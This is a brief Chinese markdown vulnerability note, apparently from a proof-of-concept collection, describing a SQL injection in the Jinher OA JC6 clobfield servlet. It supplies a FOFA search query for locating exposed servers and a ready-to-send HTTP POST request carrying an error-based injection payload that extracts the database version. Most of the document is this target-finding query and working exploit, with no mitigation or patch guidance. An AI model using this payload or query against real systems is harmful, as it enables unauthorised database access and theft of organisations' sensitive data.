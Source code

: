 ## 金和OA jc6 clobfield SQL注入漏洞
金和OA jc6 ljc6/servlet/clobfield接口处存在SQL注入漏洞，攻击者可获取数据中中敏感信息。

## fofa
```

title="金和协同管理平台" || body="js/PasswordCommon.js" || body="js/PasswordNew.js" || body="Jinher Network" || (body="c6/Jhsoft.Web.login" && body="CloseWindowNoAsk") || header="Path=/jc6" || (body="JC6金和协同管理平台" && body="src=\"/jc6/platform/") || body="window.location = \"JHSoft.MobileApp/Default.htm\";" || banner="Path=/jc6"
```

## poc
```
POST /jc6/servlet/clobfield HTTP/1.1
host:127.0.0.1

key=readClob&sImgname=filename&sTablename=FC_ATTACH&sKeyname=djbh&sKeyvalue=11%27%2F**%2Fand%2F**%2FCONVERT%28int%2C%40%40version%29%3D1%2F**%2Fand%2F**%2F%27%27%3D%27
```
![image](../../images/09333181-7373-4930-ad60-91e168709564.png)


